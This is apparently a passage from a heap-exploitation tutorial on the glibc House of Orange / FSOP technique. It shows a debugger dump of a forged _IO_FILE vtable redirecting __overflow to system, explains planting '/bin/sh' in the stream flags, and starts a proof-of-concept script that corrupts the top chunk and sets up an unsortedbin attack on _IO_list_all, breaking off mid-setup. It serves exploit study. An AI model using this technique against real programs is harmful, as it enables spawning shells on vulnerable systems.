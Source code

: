 And its `vtable`:

```bash
pwndbg> p *((struct _IO_FILE_plus*)(_IO_list_all.file._chain)).vtable
$14 = {
  __dummy = 0,
  __dummy2 = 0,
  __finish = 0x0,
  __overflow = 0x7ffff7a7a830 <__libc_system>,
  __underflow = 0x5555556030d8,
  __uflow = 0x0,
  __pbackfail = 0x0,
  __xsputn = 0x0,
  __xsgetn = 0x0,
  __seekoff = 0x0,
  __seekpos = 0x0,
  __setbuf = 0x0,
  __sync = 0x0,
  __doallocate = 0x0,
  __read = 0x0,
  __write = 0x0,
  __seek = 0x0,
  __close = 0x0,
  __stat = 0x0,
  __showmanyc = 0x0,
  __imbue = 0x0
}
```

Recall that when `__overflow` is called, its first argument is the address of the file stream, `fp`. \
This means that in case we override `__overflow` to `system`, we should make sure the first 8 bytes of the file stream (its `flags` member) contains `/bin/sh\x00`. \
That way, we get a shell without any one-gadget. 

Note that on `glibc < 2.27`, even the `abort` function flushes IO streams! \
It means that even if malloc mitigations are detected (and they do, as we have sorted the unsortedbin chunk and not exact-allocated it, so we've continued the search with the corrupted `bk`) - the IO streams handlers would be called, dropping us a shell!

Full POC:

```python
# Request a small chunk to overflow from.
small_malloc() # size 0x20

# Overflow the small chunk into the top chunk size field.
# Shrink the top chunk size field so it can be exhausted by a large request.
# Ensure the top chunk ends on a page boundary and has the prev_inuse bit set.
new_heap_size = 0x1000 - 0x20 + 1
edit(b"X"*24 + p64(new_heap_size))

# Request a large chunk to exhaust the top chunk and trigger top extension code.
# The old top chunk is non-contiguous to the new memory so the new memory becomes the
# top chunk and the old top chunk is freed.
large_malloc() # This chunk will be allocated from the new top chunk.


# =-=-=- PREPARE A FAKE _IO_FILE STRUCT -=-=-=

# Set up an unsortedbin attack and fake _IO_FILE struct.
flags = b"/bin/sh\x00"
size = 0x61
fd = 0x00
bk = libc.sym._IO_list_all - 16

```